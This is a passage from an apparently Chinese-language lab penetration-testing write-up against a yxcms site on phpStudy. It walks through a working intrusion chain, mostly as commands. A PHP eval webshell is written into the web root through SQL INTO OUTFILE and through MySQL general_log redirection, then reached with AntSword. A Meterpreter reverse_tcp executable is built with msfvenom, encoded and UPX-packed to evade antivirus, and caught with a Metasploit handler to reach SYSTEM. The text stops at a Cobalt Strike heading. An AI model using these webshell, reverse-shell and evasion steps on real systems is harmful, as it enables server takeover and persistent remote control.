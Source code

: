     select '<?php @eval($_POST[111]);?>' into outfile 'C:/phpStudy/WWW/yxcms/troy3e.php'
当然这里是NULL是不行的（无法动态修改），所以得换另一种方法。

二、利用日志文件getshell

    set global general_log='on'

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210601220415.png)

看一下日志路径，现在所有执行的sql语句都会出现在stu1.log。
但是这个值是可以修改的，我们把它改成php：

    set global general_log_file='C:/phpStudy/WWW/yxcms/public/troy3e.php'

现在执行包含一句话木马语句：
    
    select '<?php @eval($_POST[111]);?>'

蚁剑

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210603131915.png)

## 反弹一个MSF的shell

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210602205143.png)

    msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.52.128 lport=8888 -f exe -o win.exe  #lhost是我们的主机ip，lport是我们主机的用于监听的端口
 
    msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.52.128 lport=8888 -i 3 -e x86/shikata_ga_nai  -f exe -o win.exe  #编码3次

还可以upx加个壳防溯源：
    
    upx -9 win.exe -k -o win2.exe

我这里win10试了下还是被杀了。
然后打开msfconsole：

    msf > use exploit/multi/handler  #使用exploit/multi/handler监听从肉鸡发来的数据
    msf exploit(handler) > set payload windows/meterpreter/reverse_tcp  #设置payload，不同的木马设置不同的payload
    msf exploit(handler) > set lhost 192.168.72.129  #我们的主机ip
    msf exploit(handler) > set lport 8888            #我们的主机端口
    msf exploit(handler) > exploit 

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210602210244.png)

执行msf马

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210602210607.png)

由于这里进来直接是管理员用户，所以直接能提到system

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210602211028.png)

## 派生CobaltStrike权限
